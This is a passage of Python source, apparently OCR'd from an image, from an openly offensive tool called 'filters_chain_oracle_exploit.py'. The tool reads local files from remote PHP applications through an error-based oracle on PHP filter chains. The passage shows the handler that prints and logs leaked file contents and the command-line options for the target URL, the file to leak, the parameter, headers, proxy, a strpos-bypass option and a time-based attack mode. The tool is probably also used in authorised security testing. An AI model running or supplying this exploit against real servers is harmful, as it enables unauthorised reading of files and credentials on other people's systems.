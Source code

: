 ```c
        self.bruteforcer = None

    """
    Function managing interuption
    """
    def signal_handler(self, sig, frame):
        print("[*] File leak gracefully stopped.")
        print("[+] File {} was partially leaked".format(self.requestor.file_to_leak))
        print(self.bruteforcer.base64)
        print(self.bruteforcer.data)
        if self.log_file:
                self.log_in_file("# The following data was leaked from {} from the file {}\n{}\n".format(self.requestor.target, self.requestor.file_to_leak, self.bruteforcer.data.decode("utf-8")))
        sys.exit(1)
    
    """
    Function managing log file
    """
    def log_in_file(self, content):
        print("[*] Info logged in : {}".format(self.log_file))
        with open(self.log_file, "a") as file:
            file.write(content)
            file.flush()

    """
    Function managing CLI arguments
    """
    def main(self):
        #signal management
        usage = """
        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\\n"
        """
        # Parsing command line arguments
        parser = argparse.ArgumentParser(description=usage, formatter_class=argparse.RawTextHelpFormatter)
        parser.add_argument("--target", help="URL on which you want to run the exploit.", required=True)
        parser.add_argument("--file", help="Path to the file you want to leak.", required=True)
        parser.add_argument("--parameter", help="Parameter to exploit.", required=True)
        parser.add_argument("--data", help="Additionnal data that might be required. (ex : {\"string\":\"value\"})", required=False)
        parser.add_argument("--headers", help="Headers used by the request. (ex : {\"Authorization\":\"Bearer [TOKEN]\"})", required=False)
        parser.add_argument("--verb", help="HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE", required=False)
        parser.add_argument("--proxy", help="Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)", required=False)
        parser.add_argument("--in_chain", help="Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)", required=False)
        parser.add_argument("--time_based_attack", help="Exploits the oracle as a time base attack, can be improved. (ex : True)", required=False)
```
